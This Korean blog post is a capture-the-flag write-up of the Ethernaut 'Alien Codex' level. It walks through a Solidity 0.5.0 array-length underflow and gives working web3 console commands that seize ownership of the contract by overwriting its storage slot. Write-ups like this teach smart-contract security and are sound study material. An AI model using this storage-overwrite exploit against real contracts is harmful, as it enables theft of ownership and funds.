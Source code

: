 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 19) Alien Codex
date: '2022-02-05 18:15:00'
author: 한성원
tags: ethernaut AlienCodex vulnerability 
categories: 취약점분석
---
```



# 👋 1. Alien Codex
__Difficulty 7/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Alien contract의 ownership 가져오기

- - -

## 코드 분석
분석은 주석에 있습니다!

```solidity
// 컴파일러 버전 0.5.0을 사용하고 있다. 즉 under & overflow 취약점을 가지고 있다.
pragma solidity ^0.5.0;

// 우리가 모르는 Ownable-05.sol contract를 import한다.
import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

    bool public contact;
    bytes32[] public codex;

    // contact이 true인지 확인하는 modifier
    modifier contacted() {
        assert(contact);
        _;
    }
    
    // contact의 value를 true로 만들 수 있는 function
    function make_contact() public {
        contact = true;
    }

    // codex array에 _content를 push 할 수 있는 function
    // modifier: contacted
    function record(bytes32 _content) contacted public {
        codex.push(_content);
    }

    // codex의 length를 줄일 수 있다. 아마 pop과 같은 역할을 위해 만든게 아닐까 싶다.
    // modifier: contacted
    function retract() contacted public {
        codex.length--;
    }

    // codex array안에 i위치에 있는 _content를 바꿀 수 있다.
    // modifier: contacted
    function revise(uint i, bytes32 _content) contacted public {
        codex[i] = _content;
    }
}
```
- - -

## 풀이
### 들어가기 전
이 문제에서 우리의 목표는 Alien contract의 ownership 가져오는 것이다.

우선 힌트를 보자!
1. array storage가 어떻게 작동하는지 이해해야한다.
2. ABI의 특징을 이해해야한다.
3. Using a very underhanded approach -> 아마 underhanded solidity contest에 관해 말하는 것 같은데... 
그것처럼 풀라는건가? 정확히는 모르겠다. 추후 알게되면 업데이터하도록 하겠다!

우리의 승리 조건은 owner를 가져오는 것이지만 코드를 아무리 둘러봐도 `owner`를 바꿀 수 있는 function은 존재하지 않는다. 하지만 모든 `state variable`은 동인한 `storage`에 저장된다. 만약 우리가 모든 storage에 대한 access를 가진다면 어떻게 될까? 

이 문제는 `codex[]`의 길이를 최대값으로 만든 후 모든 storage에 대한 access를 가진다. 이후 `revise()`를 통해 owner의 위치에 값을 바꿔놓으면 해결할 수 있다.

이 문제를 풀기 위해서는 storage에 대한 지식이 없다면 풀 수 없다. state vaiable들이 어떤 방식으로 저장되는지 알아야한다. 관련해서는 다음 글들을 읽어보고 오길 바란다.
- [(Ethernaut 취약점 12) Privacy](https://holyhansss.github.io/ethernaut/12_privacy_ethernaut/12_privacy_ethernaut/)
- [EVM Storage에는 어떻게 변수가 저장될까? 저수준에서 확인하는 Storage 영역 - Heuristic Wave](https://medium.com/@heuristicwave/evm-storage%EC%97%90%EB%8A%94-%EC%96%B4%EB%96%BB%EA%B2%8C-%EB%B3%80%EC%88%98%EA%B0%80-%EC%A0%80%EC%9E%A5%EB%90%A0%EA%B9%8C-%EC%A0%80%EC%88%98%EC%A4%80%EC%97%90%EC%84%9C-%ED%99%95%EC%9D%B8%ED%95%98%EB%8A%94-storage-%EC%98%81%EC%97%AD-71dc3a6da8e2)

<br/>

### 풀이
먼저 make_contact() 제외하고 모든 function은 contacted modifier를 통과해야한다.
우리는 이 부분은 make_contact()를 call하는 것 만으로도 쉽게 해결할 수 있다.

`retract()`를 보면 codex의 길이를 줄이는 것을 알 수 있다. solidity 컴파일러 버젼 0.5.0은 overflow와 underflow를 throw하지 않는다.

우선 길이를 줄이기 위해서는 codex array의 값을 집어넣어야한다.

```javascript
//  우선 현재 owner를 확인해보자!
await contract.owner()

// make_contact를 통해 contact를 true로 바꾼다.
await contract.make_contact()

// record에 임의의 32 bytes 값을 넣는다.
await contract.record("0x0000000000000000000000000000000000000000000000000000000000000900")

// 이후 contract의 storage slot 0와 1의 값을 확인해보자
// slot 0에는 owner의 주소와 contact의 bool값이 들어있다.
// slot 1에는 codex[]의 길이가 들어있다
await web3.eth.getStorageAt("contract address", 0, function(err, res) {console.log(res)})
await web3.eth.getStorageAt("contract address", 1, function(err, res) {console.log(res)})

// retract()을 사용해 codex의 길이를 2^256-1로 만든다.
await contract.retract()
await contract.retract()
// 다시한번 길이를 확인해보면 '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'가 길이가 된 것을 확인할 수 있다.
await web3.eth.getStorageAt("contract address", 1, function(err, res) {console.log(res)})
```
<br/>

위 코드들을 통해 EVM Storage 전체에 대한 access를 얻었다. 즉 owner를 나 자신으로 바꿀 준비는 끝났다. 이제 owner이 저장되어있는 위치를 찾아 revise 함수를 호출하면 끝난다.

그렇다면 이제 revise()에 인자인 i를 찾아보자.
dynamic array의 경우 사이즈를 예측할 수 없기 때문에 Keccak-256 hash를 사용해 위치를 정한다.
[이 글](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)을 참조하자! <- 진짜 중요함!

dynamic array의 위치는 다음과 같은 수식을 사용해 찾을 수 있다.
`codex[y](y=2**256-x)` x는 slot의 위치이다.
codex array의 storage 위치는 `keccak256(bytes32(1))`이다.

위 수식을 remix에 대입하여 위치를 계산하면 다음과 같다.
```solidity
function arrLocation()
    public
    {
        // codex[y](y=2**256-x)
        index = (2**256-1) - uint256(keccak256(bytes32(1))) + 1; 
    }
```
<br/>

위 함수를 통해 우리는 `35707666377435648211887908874984608119992236509074197713628505308453184860938`라는 값을 얻었고 이는 owner의 storage 위치이다.

마지막으로 다음과 같이 revise를 사용해 owner를 바꿔주면 된다.
```javascript
// 두번째 인자는 32 bytes인 나의 주소이다. 20 bytes인 주소 앞에 0을 붙여주면 된다.
await contract.revise("35707666377435648211887908874984608119992236509074197713628505308453184860938","0x0000000000000000000000000d3D56806fe6eeDe410Ea9722da9a6f65FD24799")

// owner이 잘 바뀐지 확인
await web3.eth.getStorageAt("contract address", 0, function(err, res) {console.log(res)})
```
<br/>


owner가 바뀐것을 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
ethernaut은 후반부에 갈수록 배우는 것이 많다고 생각한다. 이 magicNumber와 마찬가지로 이번 문제에서도 EVM에 대해 더 깊이 알 수 있었던 시간이었다. 또한 underhand solidity contest에 대해서도 알게되었다. 이제 ethernaut 문제가 6개 남았는데, 문제를 다 풀고나면 underhand solidity contest문제들도 풀어보며 열심히 배우자 :)

- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org


```toc

```